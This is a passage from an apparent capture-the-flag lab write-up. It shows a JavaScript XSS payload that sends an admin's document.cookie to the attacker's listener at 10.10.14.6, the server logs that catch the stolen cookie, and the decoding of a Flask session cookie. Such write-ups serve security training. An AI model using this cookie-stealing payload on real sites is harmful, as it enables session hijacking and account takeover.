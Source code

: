 It’s worth noting that the logs are cleared periodically, so I may need to resubmit.

#### Exfil Cookie

My first thought was to exfil the cookie of the admin. I created some simple JavaScript in `xss.js`:

```

var req = new XMLHttpRequest();
req.open("GET", "http://10.10.14.6/?" + document.cookie, false);
req.send();

```

When the admin next checked the page, I got a cookie back:

```
10.10.11.127 - - [03/Nov/2021 08:48:51] "GET /xss.js HTTP/1.1" 200 -
10.10.11.127 - - [03/Nov/2021 08:48:52] "GET /?user_id=49f5f0062780bed62dc06bf4a8d2dd9cb5c3fda50e19a5a840262c26c001bb0338550635d9fd36fef81113d9fbd15805193308e099ee214406b0a87c0b6587fb HTTP/1.1" 200 -

```

Unfortunately, this cookie in theory would only help me access the site that I’m already accessing, and that I have the source for. In reality, this cookie doesn’t seem to work on the site either. Looking at the cookie that was generated when I successfully logged in as admin, the cookie that is set is called `session` and it’s a flask cookie:

```

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://10.10.10.141/admin
Vary: Cookie
Set-Cookie: session=eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk; HttpOnly; Path=/
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Fri, 05 Nov 2021 10:42:17 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/admin">/admin</a>.  If not click the link.

```

It decodes with [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager):

```

oxdf@hacky$ flask_session_cookie_manager3.py decode -c eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk
b'{"user_id":"admin"}'

```

